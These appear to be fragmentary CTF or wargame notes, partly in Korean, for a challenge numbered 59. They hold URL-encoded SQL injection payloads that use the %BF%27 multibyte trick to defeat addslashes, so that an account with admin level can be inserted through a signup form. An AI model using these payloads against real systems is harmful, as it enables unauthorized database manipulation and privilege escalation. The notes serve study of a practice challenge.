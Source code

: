 # 59

![1](img/59_0.PNG)

1. Steps 
    1. Join으로 lv이 admin인 친구 하나 삽입
        1. id가 뭐시기고 lv 이 admin이 머시기인놈을 넣어줌
    1. id로 와 phone 값으로 값을 가져옴


|       | id     | phnoe number |
|-------|--------|--------------|
| Join  |        |              |
| Login | %BF%27 | garbage      |

0x61 64 6d 69 6e
97 100 109 105 110

a7 ,1',reverse(minda))--

'

%31%2c%31%2c%61%64%6d%69%6e **%27**%29%2d%2d

%31%2c%31%2c%61%64%6d%69%6e **%BF%27**%29%2d%2d



how to bypass addslashes => "%BF%27"//
[This is the hint](https://developpaper.com/question/sqli-how-to-bypass-addslashes/)
